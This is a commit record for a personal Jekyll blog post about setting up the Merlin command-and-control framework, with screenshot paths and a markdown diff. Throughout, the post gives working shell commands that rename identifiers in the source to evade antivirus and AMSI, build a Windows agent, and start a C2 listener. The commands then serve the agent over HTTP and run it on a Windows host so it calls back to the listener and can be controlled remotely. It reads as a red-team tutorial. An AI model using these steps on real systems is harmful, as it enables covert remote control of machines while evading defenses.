

Before and after one commit to Joostvtz/joostvantzand.github.io, a Jekyll site: the page built from _posts/2020-03-09-C2-Using-Merlin.md, in a window 1280 px wide. Shown: the top 740 px of the page, without its empty margins (236-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Merlin C2 edit5

```diff
--- a/_posts/2020-03-09-C2-Using-Merlin.md
+++ b/_posts/2020-03-09-C2-Using-Merlin.md
@@ -8,20 +8,30 @@
 apt update && sudo apt install golang-go
 git clone https://github.com/Ne0nd0g/merlin && cd merlin
 
+
+## Now replace ExecuteShell for MiniMice to trick virusscanners and AMSI
+## and also hide Ne0nd0g for AMSI, as this is the developer
 find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/ExecuteShell/MiniMice/g'
 find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/executeShell/miniMice/g'
 find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/github.com\/Ne0nd0g\/merlin/github.com\/mini\/heyho/g'
 sed -i 's/github.com\/Ne0nd0g\/merlin/github.com\/mini\/heyho/g' go.mod
 
+
+## Create an output directory and build the Merlin agent
 make agent-windows DIR="./output"
 
+## Start the Merlin server listener
 go run cmd/merlinserver/main.go -i 0.0.0.0 -p 8443 -psk strongPassphraseWhaterYouWant
 
+## Run a python HTTP Server to copy the Merlin agent to the Windows system
 cd /mnt/tools/merlin/output/
 python -m SimpleHTTPServer 80
 
+## Run the Merlin agent on the Windows host
 merlinAgent-Windows-x64.exe -url https://172.16.216.135:8443 -psk strongPassphraseWhaterYouWant
+[+]New authenticated agent checkin for a0c86f61-4f21-4e63-9856-b73d7b8fbf3a
 
+## Now we can interact with the agent:
 interact a0c86f61-4f21-4e63-9856-b73d7b8fbf3a
 
 help
```
